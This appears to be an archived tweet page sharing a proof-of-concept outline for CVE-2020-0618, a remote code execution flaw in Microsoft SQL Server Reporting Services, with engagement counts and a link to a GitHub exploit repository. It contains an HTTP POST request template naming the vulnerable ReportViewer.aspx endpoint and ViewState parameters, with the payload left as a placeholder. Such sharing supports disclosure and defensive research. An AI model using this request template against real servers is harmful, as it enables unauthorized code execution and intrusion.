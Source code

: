 <td>Favorites: <code>292</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1229671907219296256 _at 2020-02-18 07:40:03_**
<blockquote>
[PoC] CVE-2020-0618 Microsoft SQL Server Reporting Services RCE Vulnerability

POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
...
...
NavigationCorrector$PageState=NeedsCorrection&amp;NavigationCorrector$ViewState=[PayloadHere]&amp;__VIEWSTATE=

https://t.co/zDu2m9gJnh https://t.co/FeCBMcnaPv
</blockquote>

* https://github.com/euphrat1ca/CVE-2020-0618

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+ERCsE7XVUAY7Bwd.png" alt="http://pbs.twimg.com/media/ERCsE7XVUAY7Bwd.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>168</code></td>
<td>Favorites: <code>328</code></td>
</tr></table>

---